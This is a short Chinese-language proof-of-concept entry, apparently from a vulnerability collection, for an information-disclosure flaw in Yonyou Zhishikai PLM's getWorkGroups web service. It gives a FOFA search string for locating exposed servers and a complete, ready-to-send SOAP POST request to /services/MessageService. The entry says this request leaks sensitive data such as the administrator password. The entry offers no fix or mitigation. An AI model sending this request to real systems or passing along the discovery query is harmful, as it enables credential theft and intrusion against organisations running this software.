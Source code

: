 ## 用友智石开PLM-getWorkGroups存在信息泄露漏洞
用友智石开PLM getWorkGroups存在信息泄露漏洞，攻击者可通过该漏洞获取管理员密码等敏感信息。

## fofa

```
body="智石开PLM"
```

## poc
```
POST /services/MessageService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 208

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:mes="MessageService">
   <soapenv:Header/>
   <soapenv:Body>
      <mes:getWorkGroups/>
   </soapenv:Body>
</soapenv:Envelope>
```
![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405300006838.png)